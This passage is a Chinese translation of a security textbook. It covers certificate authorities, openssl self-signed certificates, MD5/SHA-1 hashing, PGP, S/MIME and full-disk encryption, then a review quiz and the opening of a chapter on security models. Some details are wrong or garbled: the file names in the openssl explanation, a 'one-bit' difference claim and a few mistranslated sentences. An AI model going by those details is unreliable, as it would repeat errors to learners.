密钥是密码学的基石。没有密钥，我们就无法逆转加密过程。将可读文本转换为不可读内容很容易，而能够逆转的转换则是复杂的。

证书颁发机构 (CA) 是一个证书库。它向用户颁发证书，这意味着它收集用户的信息，然后生成密钥提供给用户。证书存储在权威机构中，同时也提供给用户。当然，有人需要管理证书库。CA 及相关系统称为 `public key infrastructure` (PKI)。拥有这样一个库的公司有时被称为 `证书颁发机构`，因为它是管理证书的权威。有时软件本身被称为 `权威`。这正是 `SimpleAuthority` 这个软件的情况。该软件使用 `OpenSSL` 库和工具生成证书，并通过图形界面处理证书的存储、创建和管理。Figure 13.5 展示了创建证书颁发机构的过程，即创建根证书和证书库，使用 Simple Authority。根证书是所有 CA 中其他证书所依赖的签名证书。


**FIGURE 13.5** Simple Authority CA creation

根证书生成后，你可以创建其他证书。Figure 13.6 展示了不仅创建新证书，还包括可以创建的证书类型。任何想要使用公钥加密传输消息的实体都需要证书。如果你想发送消息给某人，可以申请证书。服务器也需要证书。任何使用加密消息的 Web 服务器（这些天很少见不加密流量的 Web 服务器）都需要证书。你可以将其视为可选方案之一。如果你要搭建一台使用 TLS 的 Web 服务器，你会选择 SSL Server，因为 TLS 是当前实现的 SSL 的形式。


**FIGURE 13.6** Certificate creation

在提供证书所需的详细信息后，CA 会创建密钥并存储证书。CA 然后提供获取证书的手段供用户使用。这很重要，因为用户必须拥有私钥。CA 可以向任何想要的用户提供公钥，但持有证书的用户必须拥有私钥。证书创建后，你可以打开它查看详细信息。这些信息在 Figure 13.7 中可见。你会看到在证书创建时提供的信息以及密钥的相关信息。你看不到的，是密钥本身。它只是一组位元，无法打印，因为每个字节并不局限于 ASCII 表中被认为可打印的字符集。任何字节值都有可能，大多数会看起来像乱码。


**FIGURE 13.7** Certificate details

与直接查看密钥不同，你可以看到密钥的指纹。指纹是一个固定长度的十六进制值。当然，你也可以直接以十六进制形式显示密钥，而不是尝试从字节值生成字符。一个 4,096 位的密钥是 512 字节。一个字节由两个十六进制数字表示，这意味着以十六进制形式显示 4,096 位密钥需要 1,024 个字符。为了让你有概念，这段文字（包括空格和标点）共 561 个字符。

当你使用证书颁发机构时，该机构可以撤销证书。这可能是因为用户不再与管理该权威的组织关联，例如。企业可能运行自己的权威。由于证书中包含身份信息（如电子邮件地址），如果电子邮件地址不再有效，证书可能需要撤销。当证书被撤销后，任何验证证书的实体都不应接受该证书。这很重要，因为证书关联了身份。证书可以提供经过验证的身份，用于对某人进行身份验证。如果证书被撤销，用户不应被信任。

撤销证书通过证书撤销列表 (CRL) 进行管理。CRL 历史上的问题在于它们并不总是被要求用于验证证书。此外，提供 CRL 给验证证书的系统也可能不便，取决于 CA 相对于验证系统的网络位置。双方是否可达，以及是否有防火墙阻止通信，都是变量。因此，可以使用在线证书状态协议 (OCSP) 来验证证书与 CA。

### Trusted Third Party

使用 CA 的优势在于有一个中心化的权威，它不仅存储和管理证书，还负责验证身份。记住，你在证书中提供身份信息。如果证书不能可靠地归属于任何人，则不实用性不成立。仅提供姓名和甚至电子邮件地址不足以验证某人的身份，这可能被伪造，也可能来自拥有正确电子邮件地址的攻击者。解决办法是引入实际验证身份的人。这可能涉及检查能够证明你是谁的身份凭证。例如，像 VeriSign 这样的第三方提供商可能要求你安全地提供照片身份证明，然后才会发放证书。

这引入了可信第三方的概念。理想情况下，你希望始终确信你正在向预期的接收者发送加密消息，或从预期的发送者接收签名消息。这通过 CA 实现，因为它具有传递属性：如果你信任 CA，且 CA 信任某人是其所声称的身份，那么你也相信该人是其所声称的身份。我信任你，你信任 Zoey，因此我信任 Zoey。前提是 CA 对申请证书的人进行完整验证。

我们之所以知道哪些 CA 可信，是因为每个 CA 生成的证书都由其根证书签名。这意味着 CA 使用其私钥生成数字签名。检查证书的系统会验证签名是否匹配 CA 的公钥。如果匹配，说明证书真实且关联的身份有效。因此，对于每一个你信任的 CA，你需要将该 CA 的根证书添加到你的证书缓存中，以便签名能够匹配。

最终，由终端验证证书。你可能曾遇到证书错误的情况。这可能是因为证书是从不受信任的权威生成的，即你未安装该权威的根证书。也可能是伪造证书，即有人生成看似某物但实际上是别的东西的证书。还可能是配置错误。你可以在 Figure 13.8 中看到一个例子。


**FIGURE 13.8** Certificate error

Google Chrome 为何生成此错误？因为证书上的名称与服务器的名称不匹配。Web 服务器的主机名是 `www.sofamart.com`。注册证书时，需要提供该名称，包括安装证书的服务器主机名。两者必须一致。在此案例中，证书是颁发给 `*.furniturerow.com` 的，这说明即使证书来自受信任的权威机构，也不能保证你正在连接的服务器可信，因为证书可能被复制并安装在其他位置。这里，Furniture Row 是 Sofa Mart 的所有者公司，为了节省成本，尝试在其所有服务器上共用同一张证书。

### Self‑Signed Certificates

有时你只想在实验室之间加密两个系统之间的消息。你可以自行创建证书，甚至不必经过创建自己的证书颁发机构（CA）的步骤。你只需生成自己的证书并使用它。这会导致证书错误，因为证书未被签名，是裸证书。正如 OpenSSL 被 Simple Authority 使用，它也可以在命令行上手动生成证书。这里展示了 Simple Authority 运行的 OpenSSL 命令，用于创建证书。

**Certificate Generation**

```
root@quiche:~# openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365
Generating a RSA private key
 …………………………………………++++
 …………………………………………………………………………………………………………………………..++++
 writing new private key to 'key.pem'
 Enter PEM pass phrase:
 Verifying - Enter PEM pass phrase:
 -----
 You are about to be asked to enter information that will be incorporated into your certificate request.
 What you are about to enter is what is called a Distinguished Name or a DN.
 There are quite a few fields but you can leave some blank
 For some fields there will be a default value,
 If you enter '.', the field will be left blank.
 -----
 Country Name (2 letter code) [AU]:US
 State or Province Name (full name) [Some-State]:CO
 Locality Name (eg, city) []:Wubble
 Organization Name (eg, company) [Internet Widgits Pty Ltd]:
 Organizational Unit Name (eg, section) []:IT
 Common Name (e.g. server FQDN or YOUR name) []:www.server.com
 Email Address []:wubble@wubble.com
```

我使用 `openssl` 命令发起 X.509 证书请求，这在命令行的第一部分完成。随后，我提供将嵌入证书中的密钥信息。该密钥是 4,096 位的 RSA 密钥。密钥写入 `key.out` 文件，而证书本身写入 `key.pem`。还需要指定证书的有效期。你可能会遇到证书过期的情况，即旧证书仍在使用。浏览器可能会阻止与过期证书的服务器建立连接。你可以在此处指定任何期限。命令行中请求的期限是 365 天。你可能注意到，当我创建自己的 CA 时，根证书的有效期为 10 年。你不希望每年都更新根证书，因为这会导致许多用户拥有过期的根证书，从而使得该 CA 签发的所有证书都失效。再次出现递归属性的作用。

这是首次看到为密钥或证书实际创建文件。如果你拥有这些文件，可以使用 `openssl` 提取其中的信息。下面展示了如何操作。我再次使用 `x509` 功能。参数比生成证书时要简单。我提供之前生成的证书文件作为输入，然后指示 `openssl` 生成文本输出。

**Showing Certificate Details**

```
root@quiche:~# openssl x509 -in cert.pem -text
Certificate:
    Data:
       Version: 3 (0x2)
       Serial Number:
5a:50:cd:8a:dc:2d:57:ff:52:13:ca:51:a6:f5:90:7e:71:28:50:9a
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C = US, ST = CO, L = Wubble, O = Internet Widgits Pty Ltd,
OU = IT, CN = www.server.com, emailAddress = wubble@wubble.com
        Validity
            Not Before: Jan 20 22:13:54 2019 GMT
```


Not After : Jan 20 22:13:54 2020 GMT

Subject: C = US, ST = CO, L = Wubble, O = Internet Widgits Pty Ltd,

OU = IT, CN = www.server.com, emailAddress = wubble@wubble.com

Subject Public Key Info:

Public Key Algorithm: rsaEncryption

RSA Public-Key: (4096 bit)

```

下面你可以看到证书中包含的大量细节。首先是证书版本号，指示 X.509 证书的版本，这决定了证书包含的功能。还有证书序列号，唯一标识证书。我们还可以看到颁发者信息，通常是 CA。在此例中，颁发者和主体相同，因为没有权威机构，这是一张自签名证书，即生成该证书的设备自己对其签名。

上述文本输出缺少指纹信息。完整的文本输出还包含模数（即两个大质数的乘积），这是密钥的一部分。最后，还会出现证书的 Base64 编码表示。证书中存储大量数据，打印全部需要较大空间，但这能让你了解证书捕获和使用所需的信息。

## Cryptographic Hashing

加密学的一个重要元素我们此前略过了。你可能在本章节前面看到过它，例如在自签名证书中，或在 Web 服务器使用的密码套件里。缺失的关键是数据验证。你可以加密数据，但应当确保发送的内容就是接收到的内容，防止被篡改。这可以通过消息验证码（MAC）实现。MAC 是一个固定长度的值，由对整条消息运行的加密算法生成。输出通常称为 `hash`，它可以用于多种目的，不仅仅是验证传输的消息。

常见的哈希函数 — — 虽然正逐步被弃用 — — 是 Message Digest 5（MD5）。MD5 是一种加密算法，接受任意长度输入并生成固定长度输出。生成 MD5 哈希会得到 32 个十六进制字符，即 128 位。对于加密哈希函数，它并非线性函数，这意味着即使只改变一个比特，也会产生完全不同的值。下面的代码示例展示了我如何使用 `md5sum` 命令对字符串 `‘123456789’` 生成 MD5 哈希，以及对字符串 `‘223456789'（只差一个比特）` 生成的哈希，两者的输出截然不同，毫无关联。

## Generating an MD5 Hash

```
root@quiche:~# echo '123456789' | md5sum

b2cfa4183267af678ea06c7407d4d6d8  -

root@quiche:~# echo '223456789' | md5sum

2cad6f3fd5e54b84cfccd3e1ef5aea4d  -

```

一个加密哈希的期望是每个输入集合都会产生不同的值。当两个不同的输入集合生成相同的输出值时，这称为 `collision`。这些碰撞，特别是如果它们可以被人为制造，可能会导致被利用。由于这些值用于验证消息，如果消息摘要输出可以通过碰撞被操纵，则消息可能被篡改，而摘要值仍保持不变。

MD5 并不是唯一用于加密哈希的算法。事实上，它已经被 `Secure Hash Algorithm 1 (SHA‑1)` 所取代。它提供 160 位（20 字节）的输出，以 40 位十六进制数字表示。SHA‑1 与 MD5 同样如此。输入集合中的单个位差异会导致两组完全不相关的输出。你可以通过使用与 MD5 哈希示例相同的演示来看到这一点。

## Hash Values with SHA-1

```
root@quiche:~# echo '123456789' | sha1sum
179c94cf45c6e383baf52621687305204cef16f9  -
root@quiche:~# echo '223456789' | sha1sum
884228b47dd406b235d020315929a8841f178a93  -
```

这些哈希函数可以用于验证消息，因为哈希随消息一起传输。如果消息有任何差异，则应视为不真实，并应丢弃，因为假设它已被篡改。因此，不能操纵消息摘要至关重要。一旦攻击者能够篡改消息但仍使摘要正确，他们就可以更改被认为是私密的加密消息。

SHA‑1 并非终点。目前有 `SHA‑2`，支持四种不同的摘要大小（位长），分别为 224、256、384 和 512 位。还有 `SHA‑3`，它支持与 SHA‑2 相同的长度，但内部实现不同于 SHA‑1 和 SHA‑2。由于 SHA‑2 支持最高 512 位的摘要长度，实际上没有理由不使用它而不是 SHA‑1 或 MD5。它对碰撞的防护更强，且计算时间并未因更大的密钥空间而显著增加。

除了提供消息验证外，加密哈希还用于验证数据的正确性，常见于从网站下载文件时的校验。下载文件时，可以计算下载文件的哈希值并与预期值进行比较。这种方式不保证文件的真实性，即在下载过程中篡改的风险很低。它主要用于检测下载过程中的损坏。但也要确保网站上提供的文件实际上是预期的文件；当文件系统中的文件被修改时，网站也需要同步更新。

加密哈希常用于文件完整性系统，如 `Tripwire`。系统中的关键文件会计算并存储其哈希值。软件会定期比较文件系统中的实际内容与已知的良好数据库。如果发现变化，则可能提示系统被 `compromise`。基于主机的入侵检测系统也常使用这种机制，以便在攻击者获取系统时及时发现。

## PGP 和 S/MIME

公钥加密在多种场景中被广泛使用。但不一定依赖于 `CA`（证书颁发机构）。并非所有人都接受集中化的管理模式，即组织被信任。1990 年代，Phil Zimmermann 开发了一种不依赖 CA 的证书管理方式 — — `Pretty Good Privacy (PGP)`，它采用“密码学信任网络”进行验证。思路是将密钥上传到公共服务器，了解上传者的人会为该密钥签名，以示他们认识该人并确认该密钥确实属于声称的用户。

假设 Zoey 的邮箱地址是 `zoey@wubble.com`，她上传了自己的 PGP 密钥。此过程基于创建 X.509 证书并将公钥存放在公共服务器上。正是公钥被存储在公共服务器中。我认识 Zoey，知道她的邮箱地址，并且她告诉我她的公钥指纹。我前往 PGP 密钥站点并用我的签名对她的密钥进行签署。任何了解我但不认识 Zoey 的人都可以确信 Zoey 的密钥是可信的。这再次体现了传递属性：你信任我，而我信任 Zoey 的密钥是可靠的，因此你可以信任 Zoey 的密钥，并使用她的公钥发送加密消息。

你最终需要管理所有想与之通信的公钥，通常将它们存放在 `keyring` 中。keyring 通常由你自己的密钥签名，并附带消息验证码，以确保其未被篡改。正如你已经多次看到的，在谈论加密和隐私时，确保流程的每个环节的有效性以及保护密钥至关重要。PGP 的一个缺点是密钥由用户自行管理。这意味着你必须随时保管好自己的密钥。理论上我可能拥有一个 30 年旧的 PGP 密钥，但不幸的是，我不得不重新构建系统或密钥被误删。

这导致我不得不不断重新创建密钥，这在 Figure 13.9 中可见，同一电子邮件地址可能对应多个密钥。此时你如何确定应使用哪一个密钥来加密给该用户的消息？这把所有管理权都交到了个人用户手中。用户必须知道想要发送消息的对象，并选择对应的正确密钥。


**FIGURE 13.9** List of PGP keys

PGP 不适合用于服务器证书，而是用于用户之间的电子邮件等消息传递。只要双方都运行 PGP 软件，PGP 即可加密一封电子邮件。PGP 并非唯一的电子邮件加密方案。

`Secure/Multipurpose Internet Mail Extensions (S/MIME)` 是另一种用于发送加密电子邮件的标准。它通常被嵌入到电子邮件客户端中，无需第三方软件。S/MIME 使用 `X.509` 证书，这些证书通常由证书颁发机构（CA）签发，并且常见于 Windows Active Directory 中安装。在完全基于 Microsoft 的环境中，企业内部的用户可以相互发送加密消息，并且公钥可以从 Active Directory 服务器中获取。这意味着不需要额外的根 CA 密钥，也不必采用其他方式将公钥分发到客户端系统。

## 磁盘和文件加密

从数据安全的角度来看，数据分为三种类型。第一种是 `正在传输的数据`，我们在讨论使用 S/MIME 和混合加密系统时已经涉及此类。这些是用于加密正在从一个位置传输到另一个位置的数据的技术，通常是通过网络进行的。数据从发送方传输到接收方，因此被称为“正在传输”。第二种数据类型是 `正在使用的数据`，即由应用程序处理的数据，通常位于内存中。这种数据在安全方面更难以应对，因为它在使用过程中通常无法加密。相反，数据会在一段时间内以明文形式存在，这很有问题。开发人员可能会使用诸如 `数据掩盖` 等技术，这是一种保持数据可用但将其分段的方法，以便同一时间不能查看所有数据。

第三种数据类型是 `静止数据`。这是存储在磁盘或磁带等介质上的数据。即使是已备份的数据也需要得到保护，因此应考虑对备份进行加密。不过，最常见的静止数据处理方式是文件级或磁盘级加密。文件级加密可以由许多实用程序处理。例如，在 macOS 系统中，Preview 可以加密文件。Figure 13.10 展示了在导出 PDF 时勾选“Encrypt File”选项后出现的对话框。要加密文件，需要一个密码作为加密密钥。

像 `PGP`（前文已讨论）等其他实用程序也可以加密文件以及文件系统。加密文件系统的良好做法是使用操作系统自带的加密功能。你会在所有主要操作系统中发现内置加密功能。在此级别的加密中，它位于操作系统的底层，采用 `全盘加密`，在系统启动前需要提供身份验证来解锁密钥。许多硬件系统包含所谓的 `可信平台模块 (TPM)`，这是一种芯片上的加密处理器，能够执行诸如存储用于解密文件系统的密钥等任务。该密钥受到强力保护，只有正确的身份验证才能解锁该密钥。TPM 通常出现在运行 Windows 的系统中。Apple 也开发了自己的安全模块，功能类似。


**FIGURE 13.10** Encrypting a PDF on macOS

Apple 使用内置的全盘加密实用程序 `FileVault`。它内置于操作系统中，使用 AES 加密卷。你可以在系统偏好设置的“隐私与安全”选项中访问 FileVault。Figure 13.11 展示了系统设置工具，其中 FileVault 已启用，并需要管理员密码才能开启。启用 FileVault 后，你需要在系统启动前进行身份验证。此外，启用 FileVault 时会得到一个备份解密密钥。务必将其存储在加密卷之外的安全位置。如果忘记用于解锁驱动器的账户密码，存储在该驱动器上的密钥帮助不大。与任何解密密钥一样，必须对其进行保护。如果密钥被他人获取，可用于解密驱动器，这基本上等同于没有进行加密。


**FIGURE 13.11** FileVault encryption

Windows 也内置了加密软件，称为 `BitLocker`。在 Windows 系统的“更新和安全”设置中可以访问它。Figure 13.12 展示了控制面板页面，上面显示了 BitLocker 设置。启用 BitLocker 时，会询问如何存储解密密钥。如果硬件中有 TPM 芯片，密钥会存储在 TPM 中，但这只是主密钥。你仍需处理备份密钥。在 Windows 网络中，通常会有 Active Directory 服务器。备份密钥可以在 Active Directory 中进行保管，从而提供一个中心位置来检索密钥。对于企业而言，员工离职后，取走可以解锁驱动器的密码，Active Directory 中保存的密钥允许企业在需要时检索关键信息。即使密钥在员工离职后被取走，也有办法在之后恢复。


**FIGURE 13.12** BitLocker control panel

别忘了 Linux。Linux 系统上的加密经历了多次迭代，当前使用的是 `dm-crypt`，它位于 Linux 内核内。这个过程比仅仅打开选项并启用要稍微复杂一些。但 `dm-crypt` 也能够相对容易地加密外部卷。以下是在这类 Linux 系统上加密外部卷的步骤。过程从为 USB 驱动器创建一个卷开始。我们首先需要在驱动器上添加 `Linux Unified Key Setup (LUKS)` 头。这需要一个密码来保护密钥，进而保护驱动器上的数据。加密卷创建完成后，必须先使用 `cryptsetup open` 打开该卷，然后才能进行操作。

## 在 Linux 中加密磁盘

```
kilroy@hodgepodge $ sudo cryptsetup luksFormat /dev/sdf1

WARNING!
========
This will overwrite data on /dev/sdf1 irrevocably.

Are you sure? (Type uppercase yes): YES
Enter passphrase for /dev/sdf1:
Verify passphrase:
kilroy@hodgepodge $ sudo cryptsetup open /dev/sdf1 encryptedbackup
Enter passphrase for /dev/sdf1:
 kilroy@hodgepodge $ sudo mkfs.ext4 /dev/mapper/encryptedbackup
mke2fs 1.44.1 (24-Mar-2018)
Creating file system with 3906555 4k blocks and 977280 inodes
File system UUID: 21b73264-143f-40fa-8ca5-156363783a8a
Superblock backups stored on blocks:
         32768, 98304, 163840, 229376, 294912, 819200, 884736, 1605632, 2654208

Allocating group tables: done
Writing inode tables: done
Creating journal (16384 blocks): done
Writing superblocks and file system accounting information: done
```

请记住，一旦在驱动器上添加了加密头，之前存储在驱动器上的任何数据都会被永久删除。一旦使用 `cryptsetup open` 打开驱动器，你需要创建文件系统才能使用该驱动器。由于该驱动器是 USB 驱动器，只要知道密码，就可以在另一台系统上移动并使用它。可能会有驱动程序可在 Windows 系统上安装，从而允许在该系统上打开该驱动器。

如今，加密数据的方式多种多样，无论是全盘加密、单个卷加密还是单个文件加密。但请记住，加密的安全性取决于密钥的保护情况；如果密钥保护不当，或者有人能够访问一个已登录且未锁定的系统，数据实际上就是未加密的。

加密是一个重要概念，因为隐私至关重要。这在攻击者寻找任何优势时尤为重要。如果他们能够拦截未加密的信息，可能会利用信息的内容。用户有时会错误地认为企业内部发送给其他用户的信息是安全的，因为它们仍然在企业内部。这些信息并不安全，因为可以被拦截并被利用。对基于磁盘的加密同样适用。你不能假设已加密的磁盘是安全的。一旦有人以合法用户身份验证，磁盘即解除加密。这意味着如果攻击者能够获得已验证的访问权限，即使通过作为主用户运行的恶意软件，磁盘也会完全暴露给攻击者。

当你考虑最终结果时，有两种加密类型。第一种是替换，其中一个字符被另一个字符替换。这在诸如旋转密码和维杰纳密码等加密方案中很常见。第二种是转换密码。这里，未加密的信息（明文）不是逐字符替换，而是整个信息被转换，通常通过数学过程实现。这种转换可以使用固定长度的块进行，这属于块密码；也可以逐字节进行，这是流密码的工作方式。在块密码中，数据大小应为块大小的倍数。最后一个块可能需要填充以达到正确的大小。

密钥管理至关重要。其中的一个重要元素是密钥创建。你可以使用预共享密钥，这些密钥在共享过程中可能会被学习或拦截。如果你不使用预共享密钥，密钥可以派生。这可以通过 `Diffie‑Hellman` 密钥交换协议实现。双方在共同的起点上添加一个值并将其传递给对方。一旦该值被加入到共享密钥中，双方都拥有相同的键，并可以开始发送加密消息。

这种过程可以用于对称密钥，即相同的密钥用于加密和解密。高级加密标准（AES）是一种常见的对称密钥加密算法。AES 支持 128、192 和 256 位。你也可以使用非对称密钥算法，其中加密和解密使用不同的密钥。这有时被称为“公钥”密码学。常见的做法是使用混合密码系统，即使用公钥密码学来共享会话密钥，该会话密钥是用于会话内加密消息的对称密钥。

证书由 `X.509` 定义，`X.509` 是 `X.500` 数字目录标准的子集，用于存储公钥信息。这包括证书持有者的身份信息，以便可以进行证书验证。证书可以通过 `CA`（受信任的第三方）进行管理，`CA` 用于验证证书持有者的身份。`CA` 并不是唯一验证身份的方式，`PGP` 使用信任网络模型，个人用户通过签名验证他们认识的人的公钥来验证身份。

`MAC` 用于确保消息未被篡改。这通常是一种密码散列，它从可变长度数据生成固定长度的散列值。这不仅可以用于消息验证，还可以用于验证文件未被篡改或损坏。


全盘加密是当今系统中常见的技术。Windows 系统通常使用 BitLocker，但也有第三方软件解决方案提供相同功能。macOS 系统使用 FileVault，Linux 使用 `dm‑crypt`，它内置在内核中，但仍需在系统上安装实用程序来设置卷加密并打开加密卷。与任何加密一样，密钥管理至关重要，加密文件或文件系统并不能防止所有情况。加密文件如果密钥或密码丢失，可能会导致数据丢失。

# Review Questions

你可以在附录中找到答案。

1. 旋转 4 位后，`erwaiv` 解密为？

   1. *waive*
   2. wave
   3. answer
   4. decrypt

2. 什么是加密前的消息？

   1. Text
   2. Plain text
   3. Bare words
   4. Bare text

3. PGP 用什么来验证身份？

   1. Central authority
   2. Web of users
   3. Web of trust
   4. Central trust authority

4. 哪项原则用于证明签名消息来自持有签名密钥的所有者？

   1. Nonrepudiation
   2. Nonverifiability
   3. Integrity
   4. Authority

5. Diffie‑Hellman 用于什么？

   1. Key management
   2. Key isolation
   3. Key exchange
   4. Key revocation

6. 3DES 在改进 DES 的方面做了什么？

   1. Made the key longer
   2. Used two keys
   3. Changed algorithms
   4. Used three keys

7. 椭圆曲线密码学带来了什么改进？

   1. Smaller keys improve speed
   2. Algorithm is more complex
   3. Doesn't use factoring, which is better
   4. Longer keys

8. 当两个不同的数据集产生相同的密码散列时，这叫什么？

   1. Paradox
   2. Collision
   3. Crash
   4. Unrealistic

9. 哪些术语可以用于描述非对称密钥加密？

   1. Defined key
   2. Multifactor
   3. Public key
   4. Single factor

10. 如果艾丽丝要给鲍勃发送电子邮件，她会使用哪个密钥来加密消息？

    1. PGP key
    2. Private key
    3. Public key
    4. Symmetric key

11. 哪项属性让你可以相信一个受你信任的证书颁发机构（CA）认证的对象？

    1. Commutative property
    2. Associative property
    3. Communicative property
    4. Transitive property

12. 为什么对称密钥加密通常比非对称密钥加密更常用？

    1. It's faster.
    2. It's more secure.
    3. It's easier to implement.
    4. It isn't encumbered with patents.

13. 当同时使用对称键和非对称键时，这叫什么？

    1. Fast cryptosystem
    2. Hybrid cryptosystem
    3. Super‑symmetric cryptosystem
    4. Dual key cryptosystem

14. MD5 或 SHA‑1 在密码学中通常用于什么？

    1. Media access control (MAC)
    2. Machine authentication code (MAC)
    3. Message access code (MAC)
    4. Message authentication code (MAC)

15. PGP 使用哪种类型的加密？

    1. Null key
    2. Asymmetric key
    3. Trusted key
    4. Web key

16. 哪个工具可以用于识别 Web 服务器上使用的密码套件？

    1. `Hydra`
    2. `sslscan`
    3. `tlsscan`
    4. `cipherscan`

17. AES 如何防止相关键攻击？

    1. Longer key lengths
    2. Better initialization vectors
    3. Implementation doesn't allow related keys
    4. Upgrading to AES‑2

18. 使用证书颁发机构的一个优势是什么？

    1. Trusted third party doing validation
    2. A certificate authority is faster
    3. Stronger keys are offered
    4. They support more cipher suites

19. 证书颁发机构如何保持有效证书列表的最新？

    1. Periodic CA update
    2. Hashing the list
    3. Re‑validating identities
    4. Certificate revocation lists

20. 哪项安全属性表明，由个人密钥签名的电子邮件必然来自该人？

    1. Confidentiality
    2. Integrity
    3. 可用性
    4. 不可否认性

# 第 14 章

## 安全架构与设计

开发企业策略，包括如何开发应用程序，需要进行大量的考虑。有许多因素需要思考，且不必从头开始。无论你在开发什么或实施什么，重要的是要考虑用户，以及（可能更为重要）数据分类及其必要的安全要求。毕竟，并非所有数据都是同等的。正如并非所有数据都是同等的，用户也不全是同等的。因此，在开发安全程序时，拥有一个安全模型是有用的。这意味着定义你将如何让用户与数据以及彼此交互。设计安全模型的方法有多种，其中一些与数据的分类方式相关。

安全模型是确保安全策略得到遵守的一种方式。制定安全模型是定义要实施的行为的一种途径。这可以指导应用程序的开发与部署，尤其是在定义架构时。当今的应用开发方式多种多样，尤其是我们不再局限于在单一客户系统上部署的原生应用。

此外，在应用程序开发与部署时还需考虑安全架构。制定安全架构意味着采用自上而下的方式，确保安全策略、标准和控制措施保持一致且连贯。安全策略从组织的最高层开始，依据业务需求和要求设定方向。需要记住的是，安全应是业务的助推器。

## 数据分类

并非所有数据都是同等的。数据分类是组织安全系统和控制措施时的重要一步。数据分类用于识别和组织具有相似安全控制需求的信息。这使得可以创建相应的访问控制。在思考安全模型时，首先要考虑数据分类，因为安全模型用于确定谁可以查看哪些数据。没有先对数据资源进行分类和组织，是做不到的。

不同组织会采用不同的分类方案，这取决于其数据资源的特性。这也是政府部门（尤其是军事部门）常常提到的内容。表 14.1 列出了当前政府常用的分类。

**表 14.1** 政府数据分类

| 分类 | 描述 |
| --- | --- |
| 绝密 | 最高级别的数据分类。只有少数人能够查看被标记为绝密的数据。 |
| 秘密 | 秘密信息的泄露会对国家安全造成严重损害。 |
| 机密 | 机密信息的泄露会对国家安全造成损害。 |
| 限制 | 限制数据的泄露会产生不良影响。 |
| 官方 | 与政府业务相关的信息，若丢失或泄露未必意味着潜在的危害。 |
| 公开 | 公开信息可由所有人查看。这可能包括曾被视为更高级别的信息但已解密的内容，其泄露的威胁已降低。 |

在每个分类级别内部，可能还有进一步的隔离层。绝密信息不一定对所有已获准的“绝密”级别人员都可用。正如并非所有数据都是同等的，用户也不全是同等的。信息有时需要在超出这些数据分类级别的范围内进行隔离。这也不是唯一的分类方式。组织可能有不同的信息思考方式。表 14.2 展示了另一种数据分类方式。

可以看出，这是一种更简单的数据分类方式。更简单的做法是仅有两类：限制和公开。这完全取决于组织内可能存在的数据类型。也可能取决于组织内的人员数量，从而决定需要多少分类级别。如果你在一个规模较小的组织中，且所有人基本平等，例如一家由公司合伙人组成的初创公司，可能只需要两个数据分类级别。

**表 14.2** 简化数据分类

| 分类 | 描述 |
| --- | --- |
| 限制 | 内部或敏感数据，若丢失或泄露可能对组织造成重大损害。 |
| 私密 | 内部或敏感数据，但若丢失或泄露仅会对组织造成中等损害。 |
| 公开 | 公开数据的泄露或丢失不会对组织造成任何损害。 |

分类应始终基于业务需求和要求。正如许多事情一样，越早在组织生命周期中进行分类，越容易。拥有大量数据的大型组织会因为数据的体量和规模而发现分类更为困难。在某些情况下，法规可能会建议一种分类方案。

## 安全模型

安全模型用于帮助执行访问控制。安全模型定义了谁可以对数据执行哪些操作。它是组织已确定的数据分类级别的扩展。例如，你不应将公开数据与敏感数据混在一起。通常，只需拥有公开数据访问权限的人不应拥有敏感信息的访问权限。这并非双向属性，当然，拥有绝密数据访问权限的人应能访问公开数据，但绝不可能相反。下面的章节将介绍这些关系的模型。

### 状态机

状态机模型基于有限状态机。有限状态机是描述一系列计算步骤的方式。在任何时刻，机器要么处于单一状态，要么处于两个状态之间的转换。这是一种抽象的计算模型评估方式。你可以在图 14.1 中看到一个简单的状态机示例，它展示了状态 A 和状态 B 两种状态。在这个模型中，可以从状态 A 向状态 B 以及从状态 B 向状态 A 进行转换。根据不同的模型，转换方向不一定双向。把这想象成自动门的建模：门有两个状态，开启和关闭，同时存在从开启到关闭以及从关闭到开启的转换。


**图 14.1** 基本状态机

状态机模型用于识别系统整体安全性是否已进入不安全的状态。这要求识别系统的所有可能状态，以及使系统进入特定状态的所有可能操作以及所有可能的状态转换。当系统发生意外转换或操作导致意外状态时，可以进行监控并发出警报。

这款模型比这里讨论过的其他模型要更抽象，因为它实际上并没有定义任何预期行为。它仅仅是一种建模环境的方式，需要有人来定义预期行为和状态。

### Biba

Biba 模型是以 1975 年开发它的 Kenneth Biba 之名命名的。Biba 模型的目标是数据完整性。因此，这个模型也被称为 Biba 完整性模型。请记住，安全性不总是关于保护数据的机密性。数据的完整性同样重要。数据在未经授权或错误的人员修改时，也会对组织造成损害。这可能比你想象的更为复杂。在确保数据完整性时，有三个目标：

* 未经授权的各方不能修改数据。

* 授权的各方不能在没有特定授权的情况下修改数据。

* 数据应真实准确，意味着它具备内部和外部的一致性。

第二个目标可能看起来有些困惑。仅仅拥有系统或网络的登录并不意味着你可以访问所有数据。第一个目标是确保外部没有访问权限的人不能修改数据。第二个目标是防止内部人员修改他们不应该修改，或者甚至不应该查看的数据。

在 Biba 完整性模型中，数据具有分类级别，但人员也具有分类级别。这些也被称为完整性级别。用户只能在其自身完整性级别或以下的级别上写入数据。相反的情况可能更有意义。用户不能写入其自身完整性级别之上的级别。写入并不是你能对信息做的唯一操作。你还需要考虑读取。读取只能在完整性级别或以上的级别上进行。所以，快速思考的方法是：读取向上，写入向下。

Biba 模型定义了三条规则：

* 简单完整性属性（The Simple Integrity Property）说，一个完整性级别的主体不能读取一个完整性级别更低的数据对象。

* 星（\*）完整性属性（The \* Integrity Property）说，一个完整性级别的主体不能写入完整性级别更高的数据对象。

* 调用属性（The Invocation Property）说，下级过程不能请求更高级别的访问权限。进程只能在其自身级别或以下的级别上访问。

当然，并非所有的安全模型都关注数据完整性。这意味着你可能会看到不同模型之间出现一些冲突。

### Bell–LaPadula

Bell–LaPadula 用于政府或军事实现，其意图是保护机密性。与 Biba 类似，它是一个状态机模型，意味着主体和对象在任意时刻存在单一状态。Bell–LaPadula 还识别了一个 *安全状态*，因此所有转换都应从一个安全状态移动到另一个安全状态。一个安全状态意味着主体符合对象所定义的安全策略。在这个模型中，只有适当的访问级别才被允许，因为这些级别是定义好的并且可以被评估。

正如所述，Bell–LaPadula 关注的是机密性而非完整性。因此，该模型定义的属性与 Biba 模型定义的属性不同。Bell–LaPadula 的属性如下：

* 简单安全属性（The Simple Security Property）说，一个安全级别的主体不能读取更高安全级别的对象。

* 星（\*）属性（The \* Property）说，一个安全级别的主体不能写入更低安全级别的对象。

* 离散安全属性（The Discretionary Security Property）使用访问矩阵来指示离散访问。

